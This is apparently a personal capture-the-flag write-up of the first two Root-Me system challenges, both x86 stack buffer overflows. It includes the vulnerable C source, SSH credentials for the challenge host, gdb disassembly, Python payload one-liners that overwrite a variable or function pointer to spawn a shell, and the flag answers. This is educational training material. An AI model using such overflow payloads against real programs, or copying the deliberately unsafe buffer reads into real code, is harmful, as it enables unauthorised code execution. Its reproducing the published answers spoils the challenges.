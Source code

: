 # [Root-Me](./rootme.md) Root-Me App - System Challenges [1/83]

These challenges will help you understand applicative vulnerabilities. 

## Contents

1. [ELF x86 - Stack buffer overflow basic 1](#elf-x86-stack-buffer-overflow-basic-1) 🗸
2. [ELF x86 - Stack buffer overflow basic 2](#elf-x86-stack-buffer-overflow-basic-2) 🗸
3. [PE32 - Stack buffer overflow basic](#pe32-stack-buffer-overflow-basic)
4. [ELF x86 - Format string bug basic 1](#elf-x86-format-string-bug-basic-1)
5. [ELF x64 - Stack buffer overflow - basic](#elf-x64-stack-buffer-overflow-basic)
6. [ELF x86 - Format string bug basic 2](#elf-x86-format-string-bug-basic-2)
7. [ELF x86 - Race condition](#elf-x86-race-condition)
8. [ELF ARM - Stack buffer overflow - basic](#elf-arm-stack-buffer-overflow-basic)
9. [ELF MIPS - Stack buffer overflow - No NX](#elf-mips-stack-buffer-overflow-no-nx)
10. [ELF x64 - Double free](#elf-x64-double-free)
11. [ELF x86 - Stack buffer overflow basic 3](#elf-x86-stack-buffer-overflow-basic-3)
12. [ELF x86 - Use After Free - basic](#elf-x86-use-after-free-basic)
13. [ELF ARM - Stack Spraying](#elf-arm-stack-spraying)
14. [ELF x64 - Stack buffer overflow - PIE](#elf-x64-stack-buffer-overflow-pie)
15. [ELF x86 - BSS buffer overflow](#elf-x86-bss-buffer-overflow)
16. [ELF x86 - Stack buffer overflow basic 4](#elf-x86-stack-buffer-overflow-basic-4)
17. [ELF x86 - Stack buffer overflow basic 6](#elf-x86-stack-buffer-overflow-basic-6)
18. [ELF x86 - Format String Bug Basic 3](#elf-x86-format-string-bug-basic-3)
19. [PE32 - Advanced stack buffer overflow](#pe32-advanced-stack-buffer-overflow)
20. [ELF ARM - Basic ROP](#elf-arm-basic-rop)
21. [ELF MIPS - Basic ROP](#elf-mips-basic-rop)
22. [ELF x86 - Stack buffer overflow - C++ vtables](#elf-x86-stack-buffer-overflow-cpp-vtables)
23. [PE32+ Format string bug](#pe32-format-string-bug)
24. [ELF x64 - Logic bug](#elf-x64-logic-bug)
25. [ELF x86 - Bug Hunting - Several issues](#elf-x86-bug-hunting-several-issues)
26. [ELF x86 - Stack buffer and integer overflow](#elf-x86-stack-buffer-and-integer-overflow)
27. [ELF x86 - Stack buffer overflow - ret2dl_resolve](#elf-x86-stack-buffer-overflow-ret2dl-resolve)
28. [ELF x86 - Stack buffer overflow basic 5](#elf-x86-stack-buffer-overflow-basic-5)
29. [ELF x64 - Stack buffer overflow - advanced](#elf-x64-stack-buffer-overflow-advanced)
30. [ELF MIPS - Format String Glitch](#elf-mips-format-string-glitch)
31. [ELF x64 - Heap Filling](#elf-x64-heap-filling)
32. [ELF x86 - Information leakage with Stack Smashing Protector](#elf-x86-information-leakage-with-stack-smashing-protector)
33. [ELF x64 - File Structure Hacking](#elf-x64-file-structure-hacking)
34. [ELF ARM - Race condition](#elf-arm-race-condition)
35. [ELF x64 - Browser exploit - Intro](#elf-x64-browser-exploit-intro)
36. [ELF x64 - Heap Safe-Linking Bypass](#elf-x64-heap-safe-linking-bypass)
37. [ELF x64 - ret2dl_init](#elf-x64-ret2dl-init)
38. [ELF x86 - Out of bounds attack - French Paradox](#elf-x86-out-of-bounds-attack-french-paradox)
39. [ELF x86 - Remote BSS buffer overflow](#elf-x86-remote-bss-buffer-overflow)
40. [ELF x86 - Remote Format String bug](#elf-x86-remote-format-string-bug)
41. [PE32+ Basic ROP](#pe32-basic-rop)
42. [ELF x64 - Remote heap buffer overflow - fastbin](#elf-x64-remote-heap-buffer-overflow-fastbin)
43. [ELF x86 - Blind remote format string bug](#elf-x86-blind-remote-format-string-bug)
44. [LinKern ARM - vulnerable syscall](#linkern-arm-vulnerable-syscall)
45. [LinKern x86 - Buffer overflow basic 1](#linkern-x86-buffer-overflow-basic-1)
46. [LinKern x86 - Null pointer dereference](#linkern-x86-null-pointer-dereference)
47. [LinKern x64 - Race condition](#linkern-x64-race-condition)
48. [ELF ARM - Alphanumeric shellcode](#elf-arm-alphanumeric-shellcode)
49. [ELF MIPS - URLEncoded Format String bug](#elf-mips-urlencoded-format-string-bug)
50. [ELF x86 - Hardened binary 1](#elf-x86-hardened-binary-1)
51. [ELF x86 - Hardened binary 2](#elf-x86-hardened-binary-2)
52. [ELF x86 - Hardened binary 3](#elf-x86-hardened-binary-3)
53. [ELF x86 - Hardened binary 4](#elf-x86-hardened-binary-4)
54. [LinKern MIPSel - Vulnerable ioctl](#linkern-mipsel-vulnerable-ioctl)
55. [LinKern x64 - reentrant code](#linkern-x64-reentrant-code)
56. [ELF ARM - Heap format string bug](#elf-arm-heap-format-string-bug)
57. [ELF x64 - Sigreturn Oriented Programming](#elf-x64-sigreturn-oriented-programming)
58. [ELF ARM - Format String bug](#elf-arm-format-string-bug)
59. [ELF ARM - Use After Free](#elf-arm-use-after-free)
60. [ELF x64 - FILE structure hijacking](#elf-x64-file-structure-hijacking)
61. [ELF x64 - Heap feng-shui](#elf-x64-heap-feng-shui)
62. [ELF x64 - Off-by-one bug](#elf-x64-off-by-one-bug)
63. [ELF x86 - Hardened binary 5](#elf-x86-hardened-binary-5)
64. [LinKern ARM - Stack Overflow](#linkern-arm-stack-overflow)
65. [LinKern x86 - basic ROP](#linkern-x86-basic-rop)
66. [ELF ARM - Heap Off-by-One](#elf-arm-heap-off-by-one)
67. [ELF x64 - Remote Heap buffer overflow 1](#elf-x64-remote-heap-buffer-overflow-1)
68. [ELF x86 - Hardened binary 6](#elf-x86-hardened-binary-6)
69. [ELF x86 - Hardened binary 7](#elf-x86-hardened-binary-7)
70. [ELF x86 - Remote stack buffer overflow - Hardened](#elf-x86-remote-stack-buffer-overflow-hardened)
71. [LinKern x64 - RowHammer](#linkern-x64-rowhammer)
72. [LinKern x64 - SLUB off-by-one](#linkern-x64-slub-off-by-one)
73. [ELF ARM - Heap buffer overflow - Wilderness](#elf-arm-heap-buffer-overflow-wilderness)
74. [ELF ARM - Heap Overflow](#elf-arm-heap-overflow)
75. [ELF x64 - Seccomp Whitelist](#elf-x64-seccomp-whitelist)
76. [ELF x86 - Blind ROP](#elf-x86-blind-rop)
77. [Linkern x64 - Memory exploration](#linkern-x64-memory-exploration)
78. [WinKern x64 - Advanced stack buffer overflow - ROP](#winkern-x64-advanced-stack-buffer-overflow-rop)
79. [WinKern x64 - Use After Free](#winkern-x64-use-after-free)
80. [ELF x64 - Remote Heap buffer overflow 2](#elf-x64-remote-heap-buffer-overflow-2)
81. [ELF x64 - Advanced Heap Exploitation - Heap Leakless & Fortified](#elf-x64-advanced-heap-exploitation-heap-leakless-fortified)
82. [ELF x64 - Blind ROP](#elf-x64-blind-rop)
83. [ELF x64 - Browser exploit - BitString](#elf-x64-browser-exploit-bitstring)

---

### [App - System](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

## ELF x86 Stack buffer overflow basic 1

- Author: Lyes
- Date: 25 March 2015
- Points: 5
- Level: 1

### Statement

Environment configuration:

<details>

<summary markdown="span">Source Code</summary>

~~~c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
     
int main()
{
     
  int var;
  int check = 0x04030201;
  char buf[40];
     
  fgets(buf,45,stdin);
     
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
  
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
  
  if (check == 0xdeadbeef)
  {
    printf("Yeah dude! You win!\nOpening your shell...\n");
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
    printf("Shell closed! Bye.\n");
  }
  return 0;
}
~~~

</details>

### Connection Details

- Host: challenge02.root-me.org
- Protocol: SSH
- Port:2222
- SSH access: ssh -p 2222 app-systeme-ch13@challenge02.root-me.org 
- Username: app-systeme-ch13
- Password: app-systeme-ch13

### Resources

1. [youtube](https://www.youtube.com/watch?v=u-OZQkv2ebw).
2. [buffering in standard streams](https://repository.root-me.org/Administration/Unix/Linux/EN%20-%20buffering%20in%20standard%20streams.pdf).
3. [Exploiting Stack Buffer Overflows in Linux x86 Kernel](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Stack%20Buffer%20Overflows%20in%20the%20Linux%20x86%20Kernel.pdf).

### Solutions

<details>

<summary markdown="span">Solution</summary>

Reviewing the source code we can see the vulnerability in the buf variable:

~~~c
char buf[40];     
fgets(buf,45,stdin);
~~~

The variable buf is allocated 40 Bytes but the fgets reads 45 Bytes in.  We can overflow the buf buffer and write into the stack.

Connecting, we can see the vulnerability:

~~~shell
app-systeme-ch13@challenge02:~$ ./ch13
0000000000000000000000000000000000000000000000

[buf]: 000000000000000000000000000000000000000000000
[check] 0x3030303030

You are on the right way!
app-systeme-ch13@challenge02:~$ ./ch13
0000000000000000000000000000000000000000111111

[buf]: 000000000000000000000000000000000000000011111
[check] 0x3131313131

You are on the right way!
~~~

We can see the overflow checks the check variable which is manipulated by the trailing characters (0x31 = "1").  We ncan check the endian-ness of the buffer:

~~~shell
app-systeme-ch13@challenge02:~$ ./ch13
000000000000000000000000000000000000000012345

[buf]: 00000000000000000000000000000000000000001234
[check] 0x34333231

You are on the right way!
~~~
  
This shows us the variable is little-endian.  We need to append a 5-byte statement to generate a correct little-endian value as detailed in the source code:

~~~c
if (check == 0xdeadbeef)
~~~

We can use python to insert the hex chars:

~~~shell
app-systeme-ch13@challenge02:~$ (python -c 'print("0"*40+"\xef\xbe\xad\xde")') | ./ch13

[buf]: 0000000000000000000000000000000000000000ﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
~~~

This opens a shell and immediately closes it.  We need to interrupt it using cat:

~~~shell
app-systeme-ch13@challenge02:~$ (python -c 'print("0"*40+"\xef\xbe\xad\xde")'; cat) | ./ch13

[buf]: 0000000000000000000000000000000000000000ﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
ls
ch13  ch13.c  Makefile
strings .passwd
1w4ntm0r3pr0np1s
exit
Shell closed! Bye.
~~~
  
</details>

### Answer

<details>

<summary markdown="span">Answer</summary>

~~~
1w4ntm0r3pr0np1s
~~~

</details>

---

### [App - System](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

## ELF x86 Stack buffer overflow basic 2

- Author: Lyes
- Date: 10 April 2015
- Points: 10
- Level: 1

### Statement

<details>

<summary markdown="span">Source Code</summary>

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
     
void shell() {
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
     
void sup() {
  printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
     
void main()
{
  int var;
  void (*func)()=sup;
  char buf[128];
  fgets(buf,133,stdin);
  func();
}
~~~

</details>

### Connection Details

- Host: challenge02.root-me.org
- Protocol: SSH
- Port:2222
- SSH access: ssh -p 2222 app-systeme-ch15@challenge02.root-me.org 
- Username: app-systeme-ch15
- Password: app-systeme-ch15

### Resources

1. [youtube](https://www.youtube.com/watch?v=u-OZQkv2ebw).
2. [Exploiting Stack Buffer Overflows in Linux x86 Kernel](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Stack%20Buffer%20Overflows%20in%20the%20Linux%20x86%20Kernel.pdf).
3. [64 bits Linux Stack Based Buffer Overflow](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%2064%20Bits%20Linux%20Stack%20Based%20Buffer%20Overflow.pdf).

### Solutions

<details>

<summary markdown="span">Solution</summary>

Reviewing the source code we can see the vulnerability in the buf variable:

~~~c
char buf[128];
fgets(buf,133,stdin);
~~~

The variable buf is allocated 128 Bytes but the fgets reads 133 Bytes in.  We can overflow the buf buffer and write into the stack.  We can also see a call to the bash shell in shell().  We need to call that instead of funcP{

Connecting, we can see the vulnerability:

~~~shell
$ ssh -p 2222 app-systeme-ch15@challenge02.root-me.org
app-systeme-ch15@challenge02:~$ ls
ch15  ch15.c  Makefile
app-systeme-ch15@challenge02:~$ ./ch15
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000 
app-systeme-ch15@challenge02:~$ ./ch15
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000012345
Segmentation fault
~~~

We can decompile in gdb to find the address of the shell() function:

~~~shell
app-systeme-ch15@challenge02:~$ gdb ch15
gdb) run
Starting program: /challenge/app-systeme/ch15/ch15 
1
Hey dude ! Waaaaazzaaaaaaaa ?!
[Inferior 1 (process 24071) exited with code 037]
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048584 <+0>:	lea    0x4(%esp),%ecx
   0x08048588 <+4>:	and    $0xfffffff0,%esp
   0x0804858b <+7>:	pushl  -0x4(%ecx)
   0x0804858e <+10>:	push   %ebp
   0x0804858f <+11>:	mov    %esp,%ebp
   0x08048591 <+13>:	push   %ebx
   0x08048592 <+14>:	push   %ecx
   0x08048593 <+15>:	sub    $0x90,%esp
   0x08048599 <+21>:	call   0x80485de <__x86.get_pc_thunk.ax>
   0x0804859e <+26>:	add    $0x1a62,%eax
   0x080485a3 <+31>:	lea    -0x1aa7(%eax),%edx
   0x080485a9 <+37>:	mov    %edx,-0xc(%ebp)
   0x080485ac <+40>:	mov    -0x4(%eax),%edx
   0x080485b2 <+46>:	mov    (%edx),%edx
   0x080485b4 <+48>:	sub    $0x4,%esp
   0x080485b7 <+51>:	push   %edx
   0x080485b8 <+52>:	push   $0x85
   0x080485bd <+57>:	lea    -0x8c(%ebp),%edx
   0x080485c3 <+63>:	push   %edx
   0x080485c4 <+64>:	mov    %eax,%ebx
   0x080485c6 <+66>:	call   0x8048390 <fgets@plt>
   0x080485cb <+71>:	add    $0x10,%esp
   0x080485ce <+74>:	mov    -0xc(%ebp),%eax
   0x080485d1 <+77>:	call   *%eax
   0x080485d3 <+79>:	nop
   0x080485d4 <+80>:	lea    -0x8(%ebp),%esp
   0x080485d7 <+83>:	pop    %ecx
   0x080485d8 <+84>:	pop    %ebx
   0x080485d9 <+85>:	pop    %ebp
   0x080485da <+86>:	lea    -0x4(%ecx),%esp
   0x080485dd <+89>:	ret    
End of assembler dump.
~~~
  
We can look at the memory address for shell:

~~~shell
(gdb) disassemble shell
Dump of assembler code for function shell:
   0x08048516 <+0>:	push   ebp
   0x08048517 <+1>:	mov    ebp,esp
   0x08048519 <+3>:	push   esi
   0x0804851a <+4>:	push   ebx
   0x0804851b <+5>:	call   0x8048450 <__x86.get_pc_thunk.bx>
   0x08048520 <+10>:	add    ebx,0x1ae0
   0x08048526 <+16>:	call   0x80483a0 <geteuid@plt>
   0x0804852b <+21>:	mov    esi,eax
   0x0804852d <+23>:	call   0x80483a0 <geteuid@plt>
   0x08048532 <+28>:	sub    esp,0x8
   0x08048535 <+31>:	push   esi
   0x08048536 <+32>:	push   eax
   0x08048537 <+33>:	call   0x80483d0 <setreuid@plt>
   0x0804853c <+38>:	add    esp,0x10
   0x0804853f <+41>:	sub    esp,0xc
   0x08048542 <+44>:	lea    eax,[ebx-0x1990]
   0x08048548 <+50>:	push   eax
   0x08048549 <+51>:	call   0x80483c0 <system@plt>
   0x0804854e <+56>:	add    esp,0x10
   0x08048551 <+59>:	nop
   0x08048552 <+60>:	lea    esp,[ebp-0x8]
   0x08048555 <+63>:	pop    ebx
   0x08048556 <+64>:	pop    esi
   0x08048557 <+65>:	pop    ebp
   0x08048558 <+66>:	ret    
End of assembler dump.
~~~

We need to call address 0x08048516:

~~~shell
app-systeme-ch15@challenge02:~$ (python -c 'print("0"*128+"\x16\x85\x04\x08")'; cat) | ./ch15

ls
ch15  ch15.c  Makefile
whoami
app-systeme-ch15-cracked
strings .passwd
B33r1sSoG0oD4y0urBr4iN
~~~
  
</details>

### Answer

<details>

<summary markdown="span">Answer</summary>

~~~
B33r1sSoG0oD4y0urBr4iN
~~~

</details>

---

### [App - System](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

Last updated Jan 2021.

## [djm89uk.github.io](https://djm89uk.github.io)
